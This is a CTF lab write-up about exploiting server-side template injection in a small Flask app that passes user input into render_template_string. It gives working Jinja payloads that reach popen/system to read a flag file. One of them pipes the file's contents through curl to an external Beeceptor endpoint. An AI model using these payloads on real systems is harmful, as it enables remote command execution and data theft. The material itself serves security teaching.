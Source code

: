 ```yaml
---
title: Simple Web 0x15(Lab - `Jinja`)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x15(Lab - `Jinja`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8700/

## Background
[Web Security 0x1](https://youtu.be/_hasOTGximc?t=5863)

## Source code
:::spoiler code
```python=
from flask import Flask, render_template_string, request, send_file

app = Flask(__name__)


@app.get("/")
def home():
    return render_template_string("""
    <form method="POST">
        <input type="text" name="name" placeholder="Your name">
        <button>submit</button>
    </form>
    <p><a href="/source">Source code</a></p>
    """)


@app.post("/")
def welcome_message():
    name = request.form.get('name')
    return render_template_string("<p>Hello, " + name + "</p>")


@app.get("/source")
def source():
    return send_file(__file__, mimetype="text/plain")


if __name__ == '__main__':
    app.run(threaded=True, debug=True)
```
:::

## Exploit
### Easy way
payload: `{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /th1s_15_fl4ggggggg").read()}}`
![](https://i.imgur.com/dRLbk0J.png)

### Need Tool way - [Beeceptor](https://beeceptor.com/)
`Beeceptor` will catch our result from `curl`. 
<font color="FF0000">It'll execute `cat /th1s_15_fl4ggggggg` first and the result will be sent to `Beeceptor` as attached data by `curl`.</font>
Payload: 
```!
{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('curl {Beeceptor URL} -d "`cat /th1s_15_fl4ggggggg`"')}}
```
![](https://i.imgur.com/PQ39MMI.png)

Flag: `FLAG{ssti.__class__.__pwn__}`